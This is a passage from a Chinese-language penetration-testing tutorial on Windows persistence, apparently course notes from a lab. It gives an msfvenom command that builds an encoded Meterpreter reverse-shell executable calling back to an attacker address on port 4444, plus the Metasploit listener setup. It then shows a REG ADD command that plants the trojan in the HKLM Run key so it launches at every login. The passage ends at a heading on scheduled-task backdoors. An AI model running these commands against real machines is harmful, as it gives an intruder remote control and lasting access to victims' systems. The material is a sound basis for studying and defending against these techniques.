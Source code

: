 ```bash
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.129 lport=4444 -e x86/shikata_ga_nai -i 3 -b '\00' -f exe -o shell.exe
```

### 2.2 Kali开始监听

```bash
msf6 > use /multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.231.129
LHOST => 192.168.231.129

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > run 
```

### 2.3 Kali搭建web服务器提供下载途径

Kali启动web服务器并将木马放在web服务器的跟路径下

### 2.4 使用注册表的方式激活木马

- `REG ADD`：这是一个用于添加注册表项或设置注册表项的值的命令。
- `"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"`：这是注册表的一个路径，它定义了在Windows启动时需要运行的程序。
- `/v hack`：这是创建一个名为“hack”的新值。
- `/t REG_SZ`：这是定义新值的类型，`REG_SZ`表示它是一个字符串值。
- `/d "c:\User\Lonelyor\Downloads\shell.exe"`：这是设置新值的数据，指向一个名为"shell.exe"的程序的路径。

当用户在登录系统的时候，木马会自动被执行

```bash
C:\Windows\system32>REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v hack /t REG_SZ /d "C:\Users\lonelyor\Downloadsshell.exe"
操作成功完成。
```

### 2.5 激活木马

![image-20231104215202677](%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95v2-%E5%85%A8%E6%A0%88%E5%AE%89%E5%85%A8%E8%BF%9B%E9%98%B6%E7%8F%AD.assets/image-20231104215202677.png)

## 3. 计划任务后门

